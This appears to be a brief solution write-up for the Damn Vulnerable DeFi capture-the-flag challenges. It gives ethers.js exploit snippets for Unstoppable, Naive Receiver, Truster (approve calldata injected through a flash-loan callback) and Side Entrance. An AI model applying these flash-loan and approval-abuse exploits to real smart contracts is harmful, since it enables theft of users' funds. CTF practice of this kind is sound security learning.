
#Challenge #1:        

Un-Stoppable

````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Challenge #2:

Naive Receiver

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

#Challenge #3:

Truster

````
let interface = new ethers.utils.Interface(["function approve(address spender, uint256 amount)"]);
let data = interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
await pool.connect(player).flashLoan(0, player.address, token.address, data);
await token.connect(player).transferFrom(pool.address, player.address,  TOKENS_IN_POOL);
````

#Challenge #4: 

[Challenge #4 - Side Entrance]

In the Flash Loan call deposit function and trick the contract flash loan check

```
this.attackerContract = await (await ethers.getContractFactory('AttackSideEntrance', player)).deploy(
    pool.address,
    player.address
);
await this.attackerContract.attack();
```

#Challenge #5

The Rewarder
